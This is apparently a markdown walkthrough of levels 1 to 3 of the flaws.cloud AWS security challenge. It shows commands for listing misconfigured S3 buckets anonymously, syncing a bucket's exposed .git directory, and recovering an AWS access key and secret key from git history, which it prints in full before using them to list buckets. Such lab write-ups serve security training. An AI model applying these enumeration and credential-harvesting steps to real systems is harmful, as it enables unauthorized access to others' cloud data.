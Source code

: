 # Flaws

## Level 1
 
Use the command 

    $nslookup flaws.cloud 

to find the ip  address of the aws server flaws.cloud

Resultant ips :  

    Name:   flaws.cloud
    Address: 52.92.192.211
    Name:   flaws.cloud
    Address: 52.218.181.178
    Name:   flaws.cloud 
    Address: 52.218.153.82
    Name:   flaws.cloud
    Address: 52.92.249.155
    Name:   flaws.cloud
    Address: 52.218.229.98
    Name:   flaws.cloud
    Address: 52.218.196.163
    Name:   flaws.cloud
    Address: 52.92.181.83
    Name:   flaws.cloud
    Address: 52.218.240.99
Reverse lookup on the ip results on 
    
    name = s3-website-us-west-2.amazonaws.com
Using the command :

    $nslookup 52.218.181.178
    
Using the command:

    $aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
    
list the root files on the flaws.cloud as an anonymous id.

Result:

    2017-03-14 08:30:38       2575 hint1.html
    2017-03-03 09:35:17       1707 hint2.html
    2017-03-03 09:35:11       1101 hint3.html
    2020-05-22 23:46:45       3162 index.html
    2018-07-10 22:17:16      15979 logo.png
    2017-02-27 07:29:28         46 robots.txt
    2017-02-27 07:29:30       1051 secret-dd02c7c.html
    
    
Browse 

    https://flaws.cloud/secret-dd02c7c.html
    
to get into the next level

Link for the next level: http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
    
## Level 2

Create an account in aws as with free tier.

Create a Iam user with access key and secret access key after creating the account.

After creating the user try enquiring or list the root directory as a verified user from the terminal after setting the aws cli with access key and secret access key.

command for listing:

    $aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
   
Output be like:

    2017-02-27 07:32:15      80751 everyone.png
    2017-03-03 09:17:17       1433 hint1.html
    2017-02-27 07:34:39       1035 hint2.html
    2017-02-27 07:32:14       2786 index.html
    2017-02-27 07:32:14         26 robots.txt
    2017-02-27 07:32:15       1051 secret-e4443fc.html
    
After getting the result browse the secret file and you will get the link for the next level: http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html
    
## Level 3

To list the root dir files use the command:


    $aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
output:

                                PRE .git/
    2017-02-27 05:44:33     123637 authenticated_users.png
    2017-02-27 05:44:34       1552 hint1.html
    2017-02-27 05:44:34       1426 hint2.html
    2017-02-27 05:44:35       1247 hint3.html
    2017-02-27 05:44:33       1035 hint4.html
    2020-05-22 23:51:10       1861 index.html
    2017-02-27 05:44:33         26 robots.txt

Here we can a see a .git file, 

For accessing the git commands, we sync it with our local system using the command:
 
    $ aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud ./flaws

Navigate into that directory using the command:

    $cd flaws

After that, for finding access and secret key, we can use the command
     
     $git logs
     
output:

    commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
    Author: 0xdabbad00 <scott@summitroute.com>
    Date:   Sun Sep 17 09:10:43 2017 -0600

        Oops, accidentally added something I shouldn't have

    commit f52ec03b227ea6094b04e43f475fb0126edb5a61
    Author: 0xdabbad00 <scott@summitroute.com>
    Date:   Sun Sep 17 09:10:07 2017 -0600

        first commit
To change branch that was mentioned in the commit, follow the command

    $ git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
You will be switched to the new branch were you will get a file named access_keys.txt which contains the access keys.

Output:

    access_key AKIAJ366LIPB4IJKT7SA
    secret_access_key OdNa7m+bqUvF3Bn/qgSnPE1kBpqcBTTjqwP83Jys

Configure your aws with this keys along with the region us-west-2

Then run:
   
    $aws s3 ls
    
Output:

     2020-06-25 23:13:56 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
     2020-06-27 04:36:07 config-bucket-975426262029
     2020-06-27 16:16:15 flaws-logs
     2020-06-27 16:16:15 flaws.cloud
     2020-06-27 20:57:14 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
     2020-06-27 20:57:14 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
     2020-06-27 20:57:14 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
     2020-06-27 20:57:15 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
     2020-06-27 20:57:15 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
     2020-06-28 07:59:47 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
     
     
We get the links to complete all the levels.

Link for level 4: https://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
